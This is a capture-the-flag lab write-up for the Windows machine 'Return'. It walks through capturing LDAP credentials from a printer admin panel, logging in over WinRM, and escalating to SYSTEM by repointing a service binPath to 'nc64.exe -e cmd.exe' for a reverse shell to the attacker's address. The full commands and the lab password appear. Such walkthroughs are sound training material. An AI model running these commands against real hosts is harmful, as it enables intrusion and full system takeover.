


<br />


<br />

OS -> Windows.

Difficulty -> Easy.

<br />

# Introduction:

<br />


 
<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.108 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 18:53 CET
Nmap scan report for 10.10.11.108
Host is up (0.041s latency).
Not shown: 65498 closed tcp ports (reset), 11 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-23 18:11:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 17m38s
| smb2-time: 
|   date: 2025-03-23T18:12:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.08 seconds
```

<br />

Open Ports:

It looks like we are dealing with a `Windows` host, since the open ports and services are `typical` of this operating system, such as:

- `Port 80` -> http

- `Port 88` -> Kerberos

- `Port 135` -> RPC 

- `Port 139` -> NetBIOS

- `Port 389` -> LDAP 

-  `Port 445` -> SMB 

- `Port 5985` -> WinRM

<br />

# Http Enumeration -> Port 80

<br />

List the website:

<br />


<br />

It looks like a `printer` Administration Panel, let's check the `/settings.php` path:

<br />



<br />

There is an interesting `functionality`. 

To test it, we replace the `"Server Address"` field with our own, start a listener on port `389` and click `"Update"` button:

<br />



<br />

And when we check the `listener`, there is what appears to be a `password`:

<br />

```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.108] 54344
0*`%return\svc-printer�
                       1edFg43012!!
```

<br />

# SMB Enumeration: -> Port 445

<br />

`Crackmapexec` shows us that the domain name is `return.local` and another `SMB` information:

<br />

```bash
❯ crackmapexec smb 10.10.11.108
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
```

<br />

Now we are going to `check` if the `password` that we have obtained before is valid to the printer user -> `svc-printer`:

<br />

```bash
❯ crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!' --shares
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [*] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share
```

<br />

Yes!! It works!!

But, ¿Can we use the same `password` to log into de `Windows` System with `evil-winrm`?

<br />

```bash
❯ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
dd8fd6aa4466447d6d0c33307cxxxxxx
```

<br />

We did it!! User flag earned, come on with the privilege escalation!!

<br />

# Privilege Escalation: svc-printer -> nt authority\system:

<br />

Afther spending some time enumerating the `system`, we find the following:

<br />

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

<br />

As we can see, the user `svc-printer` is into the `"Server Operators"` group.

This represents a significant oversight by the system `administrators`, because members of this group, can `start` and `stop` services.

<br />

## Malicious Service:

<br />

There is a really good [Hacking Article](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/) that explains very well how to escalate in this situation.

We are going to `create` a malicious service that is going to execute `nc64.exe`, so first of all, we need to `upload` it to the victim machine:

<br />

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> upload nc64.exe
                                        
Info: Uploading /opt/nc64.exe to C:\Users\svc-printer\Desktop\nc64.exe
                                        
Data: 60360 bytes of 60360 bytes copied
                                        
Info: Upload successful!
```

<br />

After that, we proceed to create a `service` introducing the service name, `binary` path, our address to receive the `reverse shell`...:

<br />

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc64.exe -e cmd.exe 10.10.14.28 443"
[SC] ChangeServiceConfig SUCCESS
```

<br />

Finally we start the `listener` and then, we will `stop` the service and `start` it again:

<br />

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start VMTools
```

<br />

Check the listener...

<br />

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.108] 54645
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami     
nt authority\system
c
C:\Windows\system32> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt 
5278c85cbf887c7ae5ddf85a06xxxxxx
```

We are nt authority\system!! Machine Return pwned!!

This is a really easy Windows Machine, but with a interesting privilege escalation and really good to beginners.

Keep Hacking!!❤️❤️

<br />
